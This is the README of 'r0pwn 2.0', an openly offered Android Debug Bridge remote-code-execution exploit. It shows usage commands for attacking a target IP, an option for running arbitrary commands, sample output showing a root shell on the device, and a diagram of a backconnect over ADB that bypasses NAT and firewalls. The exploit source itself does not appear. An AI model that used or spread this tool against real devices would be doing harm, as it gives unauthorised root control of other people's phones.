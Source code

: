 # r0pwn 2.0

*hmm...*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Official Release](#release)
* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)

## Release

This is a repo of an exploit, but this exploit is a part of the Ghost Framework developed by @entynetproject.

[Ghost Framework](https://github.com/entynetproject/ghost)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

## Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

**NOTE:** Angry substitution will not work without SUID/root!

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75 -s whoami

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
substituting whoami...
root
```

## Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```
